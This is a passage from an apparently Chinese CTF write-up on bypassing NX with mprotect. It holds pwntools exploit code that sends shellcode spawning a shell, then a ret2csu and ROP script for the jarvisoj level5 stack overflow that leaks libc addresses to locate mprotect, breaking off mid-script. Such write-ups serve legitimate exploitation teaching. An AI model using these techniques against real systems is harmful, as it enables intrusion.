 ```python
shellcode = asm(shellcraft.sh())
p.sendline(shellcode)

p.interactive()
```



再穿插一道例题**jarvisoj level5**

动态链接，64位栈溢出，题目描述是不能执行system或execve，那么我们用mprotect来做

![](/picture/rop/2021-03-28-通过mmap&mprotect来绕过nx/6.png)

exp

```python
from pwn import*
context.log_level = 'debug'
context.arch = 'amd64'
def pr(a,addr):
	log.success(a+'====>'+hex(addr))

def csu_payload(got_addr,arg1,arg2,arg3,ret_addr):
	payload = 'a'*0x88
	payload += p64(0x4006AA)
	payload += p64(0)+p64(1)+p64(got_addr)+p64(arg3)+p64(arg2)+p64(arg1)
	payload += p64(0x400690)+'a'*56 + p64(ret_addr)
	return payload
def ropchain(target,arg1,arg2,arg3,ret_addr):
	payload = 'a'*0x88
	payload +=p64(prdi_ret)+p64(arg1)
	payload +=p64(prsi_ret)+p64(arg2)
	payload +=p64(prdx_ret)+p64(arg3)
	payload +=p64(target)+p64(ret_addr)
	return payload
p =process('./level3_x64')
elf = ELF('./level3_x64')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

prdi_ret = 0x4006B3
prsi_ret = 0x23eea
prdx_ret = 0x1b96
write_got = elf.got['write']
write_plt = elf.plt['write']
read_got = elf.got['read']
vuln = elf.sym['vulnerable_function']
bss = 0x600000+0xb00

payload = csu_payload(write_got,1,write_got,8,vuln)
p.sendafter('Input:\n',payload)

libcbase = u64(p.recv(8)) - libc.sym['write']
mprotect = libcbase + libc.sym['mprotect']
prsi_ret += libcbase
```